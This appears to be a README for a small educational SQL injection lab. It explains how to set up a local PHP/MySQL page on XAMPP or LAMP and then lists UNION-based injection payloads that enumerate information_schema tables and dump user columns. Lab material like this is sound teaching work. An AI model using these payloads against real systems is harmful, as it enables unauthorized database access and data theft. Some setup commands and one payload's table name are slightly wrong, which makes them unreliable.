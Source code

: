 <b> SQL Injection Tester </b>


Steps to Implement this program:- ( For Windows users)

1. Git-Clone these 2 files (project.html andd projectdb.php).

2. Download xampp server or wampp server (or any other server where you want to execute html and php file).

3. Start mysql and apache services in server.

4. Create mysql database in php-my-admin with name "project",further in this database create a table with name "users" 
   then you need to insert some random records in the table.

5. Run that file (project.html) through server.

6. Test the basic functionality of this program by typing "srno"(serial number) in text field, 
   if the output is showing the details of that "srno" then the basic functionality  is working correctly.

7. Now, let's test sql injection:-
  
  - Type " a' " in text field, if output is  showing a sql error then this page is sql injected 
    and can be hackable.
  - Now type some queries given below:-

   1. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables;#
   
   <img src = "screenshots/Screenshot from 2019-10-03 00-17-35.png"

   2. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables 
      where table_name like 'user%';#

   3. a' and 1=0 union select concat_WS(':', name), concat_WS(':', srno, city), name, city from user;#


Steps to Implement this program:- ( For Linux users):-

Setting up LAMP(Linux, Apache, Mysql, PHP):-

1- If you have a Linux OS then you have already done the first phase of LAMP which is linux.

2- Further, you have to install :-
  -Apache
  Command - apt-get install apache2
  -Mysql
  Command - apt-get install mysql -server
  -pHp
  Command - apt-get install php7.2 libapache-mod-php7.2php-mysql
  -pHp-my-admin
  Command - apt-get install phpmyadmin

3- Now ,you have to follow some mysql commands:-
  -Create database:-
    Create database project;
  -Select the created database:-
    use project;
  -Create table in database:-
    create table users(srno int(5) primary key, name  varchar(30), city varchar(30));

4- Now git-clone those 2 pages(project.html and projectdb.php) and copy them at following path:-
   var/www/html

5- Now run project.html in browser (localhost/project.html) 

6-  Now, let's test sql injection:-
  
  - Type " a' " in text field, if output is  showing a sql error then this page is sql injected 
    and can be hackable.
  - Now type some queries given below:-

   1. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables;#

   2. a' and 1=0 union select table_name, table_schema, table_type, table_catalog from information_schema.tables 
      where table_name like 'user%';#

   3. a' and 1=0 union select concat_WS(':', name), concat_WS(':', srno, city), name, city from user;#
    

